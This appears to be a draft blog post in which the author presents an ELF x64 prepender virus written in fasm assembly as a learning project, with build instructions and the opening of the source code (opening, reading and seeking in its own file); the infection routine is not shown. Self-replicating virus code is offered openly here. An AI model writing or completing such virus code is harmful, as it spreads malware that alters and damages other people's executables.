```yaml
---
title: "A ELF x64 Virus in fasm assembly"
date: 2022-10-16T12:47:18+02:00
tags: ["programming", "assembly", "viruses"]
draft: true
---
```


Recently, I was playing around with [flat assembler](https://flatassembler.net/) and i needed something to
write in it. I tried ["Hello world" program](https://en.wikipedia.org/wiki/%22Hello,_World!%22_program) but it was not
enough. I believe that generally "Hello world" programs are not a good way to learn about details of a programming 
language, especially for somewhat experienced programmers.

So I wrote a virus to familiarize myself to flat assembler. Because it is compact and has a everything from condition 
control flows to loop constructs, not just printing out in standard output and it only took me couple of hours to write it. 

It is harmless prepender virus and copies itself to the top of the infected program and infected program does 
absolutley nothing harmful except printing a message that it is infected.
The virus only infects [ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) 
files which are present in current directory (not subdirectories) and smaller than 4KB in size to prevent any potential misuse.

      

**CODE: virus.asm**
```nasm
; Written by Furqan
;
; The virus can be assembled with only Fasm.x64 and
; make sure to append virus signature
; compilation:
;   fasm.x64 virus.asm && printf "\x7e\x49\x4e\x46\x7e" >> virus
;

format ELF64 executable 3

segment readable executable
@@:
    sub rsp, 2000

    mov rax, 0x2
    mov rdi, [rsp+2008]
    xor rsi, rsi
    xor rdx, rdx
    syscall

    mov r9, rax

    mov rax, 0x0
    mov rdi, r9
    mov rsi, self
    mov rdx, self_size
    syscall

    mov rax, 0x8
    mov rdi, r9
    mov rsi, vsignl
    mov rdx, 0x1
    syscall
```